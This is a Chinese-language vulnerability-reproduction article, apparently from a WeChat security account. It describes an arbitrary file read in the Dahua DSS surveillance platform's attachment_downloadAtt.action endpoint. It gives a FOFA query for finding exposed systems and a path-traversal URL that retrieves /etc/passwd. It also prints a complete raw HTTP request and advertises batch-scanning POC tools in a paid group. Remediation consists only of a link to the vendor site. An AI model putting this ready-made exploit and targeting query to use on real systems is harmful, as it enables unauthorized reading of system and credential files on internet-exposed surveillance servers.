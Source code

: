 #  大华DSS 系统attachment_downloadAtt.action存在任意文件读取漏洞 附POC   
2024-12-23更新  南风漏洞复现文库   2024-12-24 13:20  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 大华DSS 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
大华DSS Digital Surveillance System系统。  
## 2.漏洞描述  
  
大华综合安防监控管理平台是基于“All-In-One”理念，全新架构的综合监控管理平台，集主控，转发，存储，管理于一身，具有建设成本低、部署运维简易、组合扩展灵活、性能强悍及安全稳定高可靠等特点。较DSS7000系列升级了硬件配置，增强了性能，还提供了更多的软件功能。大华DSS Digital Surveillance System系统attachment_downloadAtt.action存在远任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
大华DSS Digital Surveillance System系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92ApzhHPUqtOYHECJLfIVZy9VRYC7agR6iczKguSpMJPArSGmLM1l0tkGQ/640?wx_fmt=png&from=appmsg "null")  
  
大华DSS Digital Surveillance System系统attachment_downloadAtt.action存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="dahua-DSS"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/portal/attachment_downloadAtt.action?filePath=../../../../../../etc/passwd  
  
漏洞数据包：  
```
GET /portal/attachment_downloadAtt.action?filePath=../../../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92AqnzCEicL5nVuBQ3GFuBFia19Exsa6grBouLlR0iaBQFje9lQ7dpFGlYhw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92Arp307eUqYdeiczZQia3HLFhLjpoBeCtHrdVY6CV8Aj2w4icScJMmLTGVA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92A9Haib41LRKW9cfQ7XvOMDNibAyZTjgDteYKhSsrMrsW5pNgYdKC9awvQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92Aa2t6oAcicsD82H8XZjMTXHDCbtqoTuY2Fb0gfFhm35LBc8VJhGhVeTQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92ASTKs8icZUBq66v7gc3Deb1hTRDaO41coiaVibfZaEv1P8CktVPzDG7PaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92AjiciacuTgmY6wW3mrxuJMOgbtnpj013OzDIRH5DzsopdeDxySE0PRpEw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aRVRlhBgPhnZSZIQcRU92AiaANu4jbiaOT3k1DewlibcOibfejoD4GEic10jxyDMY0DzH4EKkSGibBKWnQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注厂商主页更新：https://www.dahuatech.com/  
## 8.往期回顾  
  
  
[YourPHPCMS checkEmail接口存在SQL注入漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487973&idx=1&sn=ae1887a94edc58e3f4368af534ceafa6&scene=21#wechat_redirect)  
  
  
[Palo Alto Networks PAN-OS存在远程命令执行漏洞CVE-2024-9474 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487960&idx=1&sn=201e394851f63027036f862d8a36895d&scene=21#wechat_redirect)  
  
  
